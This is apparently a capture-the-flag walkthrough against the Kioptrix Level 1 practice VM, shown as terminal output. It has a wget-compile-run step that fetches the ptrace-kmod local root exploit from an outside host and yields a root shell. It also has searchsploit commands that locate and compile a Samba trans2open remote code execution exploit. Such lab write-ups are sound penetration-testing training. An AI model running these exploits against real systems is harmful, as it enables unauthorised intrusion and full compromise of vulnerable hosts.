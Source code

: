 ```bash
Ready to send shellcode
Spawning shell...
bash: no job control in this shell
bash-2.05$
exploits/ptrace-kmod.c; gcc -o p ptrace-kmod.c; rm ptrace-kmod.c; ./p; net/0304-
--13:35:23--  http://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:80... connected!
HTTP request sent, awaiting response... 301 Moved Permanently
Location: https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c [following]
--13:35:23--  https://dl.packetstormsecurity.net/0304-exploits/ptrace-kmod.c
           => `ptrace-kmod.c'
Connecting to dl.packetstormsecurity.net:443... connected!
HTTP request sent, awaiting response... 200 OK
Length: 3,921 [text/x-csrc]

    0K ...                                                   100% @   3.74 MB/s

13:35:23 (3.74 MB/s) - `ptrace-kmod.c' saved [3921/3921]

[+] Attached to 2071
[+] Waiting for signal
[+] Signal caught
[+] Shellcode placed at 0x4001189d
[+] Now wait for suid shell...
whoami
root
hostname
kioptrix.level1
```

#### Sambal

```bash
searchsploit "Samba < 2.2"

------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
 Exploit Title                                                                                                                                   |  Path
                                                                                                                                                 | (/usr/share/exploitdb/)
------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Samba 2.2.0 < 2.2.8 (OSX) - trans2open Overflow (Metasploit)                                                                                     | exploits/osx/remote/9924.rb
Samba 2.2.2 < 2.2.6 - 'nttrans' Remote Buffer Overflow (Metasploit) (1)                                                                          | exploits/linux/remote/16321.rb
Samba < 2.2.8 (Linux/BSD) - Remote Code Execution                                                                                                | exploits/multiple/remote/10.c
------------------------------------------------------------------------------------------------------------------------------------------------- ----------------------------------------
Shellcodes: No Result

searchsploit -m exploits/multiple/remote/10.c


  Exploit: Samba < 2.2.8 (Linux/BSD) - Remote Code Execution
      URL: https://www.exploit-db.com/exploits/10
     Path: /usr/share/exploitdb/exploits/multiple/remote/10.c
File Type: C source, ASCII text, with CRLF line terminators

Copied to: /root/10.c
gcc -o sambal 10.c
```